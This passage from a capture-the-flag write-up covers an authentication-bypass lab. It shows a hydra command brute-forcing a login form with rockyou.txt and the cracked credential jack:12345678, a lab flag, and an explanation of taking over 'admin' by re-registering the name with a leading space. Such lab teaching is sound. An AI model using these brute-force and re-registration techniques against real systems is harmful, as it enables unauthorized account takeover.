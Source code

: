 As you can see in the above screenshot that on the 5th request the length value is **530** and the length of the content in other requests is 480. This could mean that the burp was able to successfully login in **Jack's** account using the password **12345678.**


**What is the flag you found after logging as Jack?**

`
hydra -l jack -P rockyou.txt "http-post-form://10.10.25.29:8888/login:user=^USER^&password=^PASS^:Invalid"  ` 
*Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
  
*Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-07 11:06:52  
\[DATA\] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task  
\[DATA\] attacking http-post-form://10.10.25.29:8888/login:user=^USER^&password=^PASS^:Invalid  
\[8888\]\[http-post-form\] host: 10.10.25.29 login: jack password: 12345678  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-07 11:07:02*

fad9ddc1feebd9e9bca05f02dd89e271


**What is the flag you found after logging as Mike?**

![](Pastedimage20210607110209.png)



### TASK 3:Re-registration


In the previous task, we saw that it is possible to just simply guess/brute force the password with the help of a password dictionary. In this task, we are going to focus on a vulnerability that is unique in its own way.

A lot of times what happens is that developer forgets to sanitize the input(username & password) given by the user in the code of their application which can make them vulnerable to things like SQL injection but SQLi could be a bit difficult to exploit. So we are going to focus on a vulnerability that happens because of a developer's mistake but is very easy to exploit i.e re-registration of an existing user.

Let's understand this with the help of an example, say there is an existing user with the name **admin** and now we want to get access to their account so what we can do is try to re-register that username but with slight modification. We are going to enter " admin"(notice the space in the starting). Now when you enter that in the username field and enter other required information like email id or password and submit that data. It will actually register a new user but that user will have the same right as normal admin. And that new user will also be able to see all the content present under the user **admin**.
